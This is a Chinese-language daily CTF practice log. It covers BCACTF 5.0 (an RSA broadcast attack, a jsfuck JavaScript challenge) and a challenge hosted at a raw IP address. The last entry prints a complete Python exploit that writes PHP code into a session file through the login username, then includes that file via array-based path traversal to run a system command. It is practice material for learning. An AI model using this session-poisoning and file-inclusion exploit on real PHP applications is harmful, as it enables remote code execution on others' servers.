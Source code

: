 ### Daily Exercise

#### 6月9日：BCACTF 5.0

##### RSAEncrypter

查看[源代码](./BCACTF5.0/rsa_encrypter.py)会发现符合RSA广播攻击的特点，其中e为3，那么接收3组n和c即可，使用[攻击模版](/Notes/crypto/RSA_template/broadcast.py)就可以拿到flag。

##### JSLearning.com

查看[源代码](./BCACTF5.0/server.js)就知道是jsfuck编码，程序会输出out的内容，那我们只要指定out=flag即可打印flag。

##### 复现链接

https://bcactf.com/

https://ctf.krauq.com/bcactf-2024

https://infoseciitr.in/ctf-writeups/bcactf_5.0/

#### 6月11日：http://158.247.215.127:10002/

一道目录穿越和文件读取的题目，[源代码](./imagestorage)找到了exp但还没学明白原理。

```python
from requests import get,post

url = "http://158.247.215.127:10002/"

login = {
    "username":"<?php echo system('/flag');?>"
}
cookie = post(url + "login.php",data=login).cookies.get_dict()
filename = f"./var/lib/php/sessions/sess_{cookie['PHPSESSID']}"
payload = "?"
for i in range(1,8):
    payload += f"filename[{i}]="
    if i%2==0:payload += "./"
    else:payload += "."
    payload += "&"
payload += f"filename[8]={filename}"

print(get(url + "view.php"+payload).text.split("\n")[1][:-2])
```

